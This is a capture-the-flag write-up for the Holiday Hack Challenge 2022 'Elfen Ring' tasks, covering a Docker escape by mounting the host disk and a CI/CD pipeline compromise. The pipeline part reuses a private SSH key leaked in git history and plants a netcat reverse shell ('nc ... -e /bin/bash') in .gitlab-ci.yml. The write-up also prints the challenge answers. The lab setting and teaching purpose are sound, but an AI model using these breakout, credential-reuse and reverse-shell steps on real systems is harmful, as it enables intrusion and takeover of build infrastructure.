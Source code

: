 ```yaml
---
title: "Holiday Hack Challenge 2022: 2 - Recover the Elfen Ring"
date: 2022-12-29 08:00:00 +0800
categories:
  - "Problem Solving"
  - "Holiday Hack Challenge 2022"
tags: [dev]
image:
    path: /assets/img/holiday_hack_challenge_2022/holiday_hack_challenge_2022_banner.png
---
```

**SecDevOps and Supply Chain Attacks**

Identify malicious packages and then attack CI/CD processes to escape a container.

## Clone with a Difference

>Difficulty: 1/5
>
>Clone a code repository. Get hints for this challenge from Bow Ninecandle in the Elfen Ring.

![image](/assets/img/holiday_hack_challenge_2022/783a12b31fd9115346d46f98b17b138926239c970b672753daf2d3badfb008ce.png)  

```bash
$ git clone git@haugfactory.com:asnowball/aws_scripts.git
Cloning into 'aws_scripts'...
The authenticity of host 'haugfactory.com (34.171.230.38)' can't be established.
ECDSA key fingerprint is SHA256:CqJXHictW5q0bjAZOknUyA2zzRgSEJLmdMo4nPj5Tmw.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'haugfactory.com,34.171.230.38' (ECDSA) to the list of known hosts.
git@haugfactory.com: Permission denied (publickey).
fatal: Could not read from remote repository.

Please make sure you have the correct access rights and the repository exists.
```

Found public repo at <https://haugfactory.com/orcadmin/aws_scripts>.

```bash
$ git clone https://haugfactory.com/orcadmin/aws_scripts
Cloning into 'aws_scripts'...
warning: redirecting to https://haugfactory.com/orcadmin/aws_scripts.git/
remote: Enumerating objects: 64, done.
remote: Total 64 (delta 0), reused 0 (delta 0), pack-reused 64
Unpacking objects: 100% (64/64), 23.83 KiB | 1.83 MiB/s, done.

$ cd aws_scripts && ls
README.md     container.py        ec2-instances.py  network.py     security.py
analytics.py  create_instance.py  iam.py            put_policy.py  send_ssm.py
compute.py    debug_instances.py  inventory.py      sample.json

$ tail -1 READMEmd
If you have run out of energy or time for your project, put a note at the top of the README saying that development has slowed down or stopped completely. Someone may choose to fork your project or volunteer to step in as a maintainer or owner, allowing your project to keep going. You can also make an explicit request for maintainers.

$ runtoanswer
Read that repo!
What's the last word in the README.md file for the aws_scripts repo?
> maintainers
Your answer: maintainers

Checking......
Your answer is correct!
```

## Prison Escape

>Difficulty: 3/5
>
>Escape from a container. Get hints for this challenge from Bow Ninecandle in the Elfen Ring. What hex string appears in the host file `/home/jailer/.ssh/jail.key.priv`?

![image](/assets/img/holiday_hack_challenge_2022/f51e1d8d89aa8b157c10f430b9bf38a8dd2a59eeb5af7c6457027e8c91af94be.png)  

Observed the presence of `.dockerenv` file in `/`.

![image](/assets/img/holiday_hack_challenge_2022/7552d1302c53232df373f5c2f495ac6faf0a7bb375e8441e9727dad48b676ba6.png)  

Researched on docker breakout. Reference: <https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation>

Performed method described in `Mounting Disk - Poc1`.

Confirmed that root privileges can be obtained.

```bash
$ sudo su
# whoami
root
```

List the partition tables for the specified devices.

```bash
# fdisk -l
Disk /dev/vda: 2048 MB, 2147483648 bytes, 4194304 sectors
2048 cylinders, 64 heads, 32 sectors/track
Units: sectors of 1 * 512 = 512 bytes

Disk /dev/vda doesn't contain a valid partition table
```

Create a mount point.

```bash
# mkdir /mnt/breakout
```

Mount disk to mount point.

```bash
# mount /dev/vda /mnt/breakout
```

Browse directories.

```bash
# cd /mnt/breakout/home && ls
jailer
```

Find flag.

```bash
# cd .ssh
# cat jail.key.priv
```

Hex string found: `082bb339ec19de4935867`

![image](/assets/img/holiday_hack_challenge_2022/26322faf076216bec9b87dc2e7053527bfe2d5b1836934ff19f9a07b50e12b06.png)  

## Jolly CI/CD

>Difficulty: 5/5
>
>Exploit a CI/CD pipeline. Get hints for this challenge from Tinsel Upatree in the Elfen Ring.

![image](/assets/img/holiday_hack_challenge_2022/995469c9d24db62543077846c99d25fcd2c542b03eee2cd0c9bfcc156fa6ecc2.png)  

Performed the following steps to obtain openssh private key for impersonation purpose.

```bash
$ git clone http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git

$ cd wordpress.flag.net.internal/

$ git log
--Redacted--
whoops
commit abdea0ebb21b156c01f7533cea3b895c26198c98
Author: knee-oh <sporx@kringlecon.com>
--Redacted--

$ git show abdea0ebb21b156c01f7533cea3b895c26198c98
--Redacted--
+-----BEGIN OPENSSH PRIVATE KEY-----
+b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
+QyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4gAAAJiQFTn3kBU5
+9wAAAAtzc2gtZWQyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4g
+AAAEBL0qH+iiHi9Khw6QtD6+DHwFwYc50cwR0HjNsfOVXOcv7AsdI7HOvk4piOcwLZfDot
+PqBj2tDq9NBdTUkbZBriAAAAFHNwb3J4QGtyaW5nbGVjb24uY29tAQ==
+-----END OPENSSH PRIVATE KEY-----
--Redacted--
```

Thought through the solution and craft command list.

```
$ mkdir .ssh

$ cd .ssh

$ touch id_ed25519

$ echo -e '-----BEGIN OPENSSH PRIVATE KEY-----\nb3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZWQyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4gAAAJiQFTn3kBU59wAAAAtzc2gtZWQyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4gAAAEBL0qH+iiHi9Khw6QtD6+DHwFwYc50cwR0HjNsfOVXOcv7AsdI7HOvk4piOcwLZfDotPqBj2tDq9NBdTUkbZBriAAAAFHNwb3J4QGtyaW5nbGVjb24uY29tAQ==\n-----END OPENSSH PRIVATE KEY-----' > id_ed25519

$ chmod 400 id_ed25519

$ cd ..

$ eval "$(ssh-agent -s)"

$ ssh-add

Test connection:
$ ssh -T git@gitlab.flag.net.internal

$ git clone git@gitlab.flag.net.internal:rings-of-powder/wordpress.flag.net.internal.git

$ cd wordpress.flag.net.internal/

$ git config --global user.email “sporx@kringlecon.com”

$ git config --global user.name “knee-oh”

$ nano .gitlab-ci.yml

Replace the script in .gitlab-ci.yml with the following command:
nc 172.18.0.99 8888 -e /bin/bash

$ git commit -am “payload”

$ git push && nc -lvp 8888

ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy root@wordpress.flag.net.internal

cd /

ls -la

cat flag.txt
```

Reverse shell established.

![image](/assets/img/holiday_hack_challenge_2022/12b087993f68131788566d4c473969a5bb7aa830f92f1f67adffafd10fb2993a.png)  

Obtained a shell via SSH.

![image](/assets/img/holiday_hack_challenge_2022/df51a3c91f09b19e34151388dbb33c665faba2ad4e3d306d5a1bfdfe11cc8c84.png)  

Found `flag.txt`.

![image](/assets/img/holiday_hack_challenge_2022/94c8c200ccbc83474d22a5158c7ddda79c860e32ecf483043900f80470623e4a.png)  

Show `flag.txt` contents.

ANS: `oI40zIuCcN8c3MhKgQjOMN8lfYtVqcKT`

![image](/assets/img/holiday_hack_challenge_2022/72826abcbba96d2ea0384d8575b861c92bf1f3a0b42038805709403fa643bc2e.png)  

Pondering further: Is the intended solution SSH? To use rsync requires knowledge of the source and destination. How to determine where `flag.txt` is stored without browsing?

Original script contents.

```
script:
    - rsync -e "ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy" --chown=www-data:www-data -atv --delete --progress ./ root@wordpress.flag.net.internal:/var/www/html
```

Obtained Elfen Ring.